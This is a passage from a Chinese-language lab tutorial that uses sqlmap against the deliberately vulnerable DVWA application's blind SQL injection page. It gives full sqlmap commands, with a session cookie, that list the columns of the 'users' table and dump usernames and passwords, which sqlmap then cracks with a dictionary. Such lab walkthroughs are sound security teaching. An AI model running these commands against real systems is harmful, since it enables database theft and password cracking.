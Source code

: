 得知数据表的名称，当然我们将进一步获取表中表项的内容了：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users --columns
```

![show-columns](../imgs/wm_429.png)

既然都看到表项了，当然要看看具体数据：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users -C "user,password" --dump
```

进过几番的询问，我们都确认，此时 sqlmap 会通过默认放在本地的字典为我们破解数据库中的密码，使其明文显示，因为通过字典匹配所以需要一定的时间：

![show-password](../imgs/wm_430.png)
